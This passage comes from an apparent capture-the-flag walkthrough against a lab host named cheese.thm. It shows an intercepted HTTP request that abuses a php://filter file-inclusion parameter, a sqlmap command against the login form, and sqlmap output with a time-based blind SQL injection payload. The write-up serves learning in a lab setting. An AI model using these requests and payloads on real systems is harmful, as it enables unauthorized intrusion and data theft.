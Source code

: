 
> Ok. I'm intercepting this request in BurpSuite to make it easier for me to work with the url parameter in repeater:

```html

GET /secret-script.php?file=php://filter/resource=supersecretmessageforadmin HTTP/1.1
Host: cheese.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://cheese.thm/messages.html
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> to sum it up briefly. I have a **login form** that transmits data to the server in clear text and there is a **secret-script.php script**
> that allows you to include files via the file parameter using the php://filter wrapper for filtering, which may be vulnerable

> I have potentially **two possible entry points**.

---

## Entry Point

> Ok. Now the most interesting part. The further development of the attack vector is ambiguous because there are nuances that i will talk about later.
> During my walkthrough it turned out that there are two ways to compromise the system, but one of them does not work for reasons unknown to me.

> I'll start with the vector that i tried to develop first through the **SQL vulnerability in the login form.**


> I get started **sqlman** scan to detect vulnerability in **login.php** form

```bash

sudo sqlmap -u "http://cheese.thm/login.php" --data="username=admin&password=admin" --batch --level=3 --risk=2

```

> Result:

```bash

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 4550 FROM (SELECT(SLEEP(5)))iqVS)-- Dnvc&password=admin
---

```
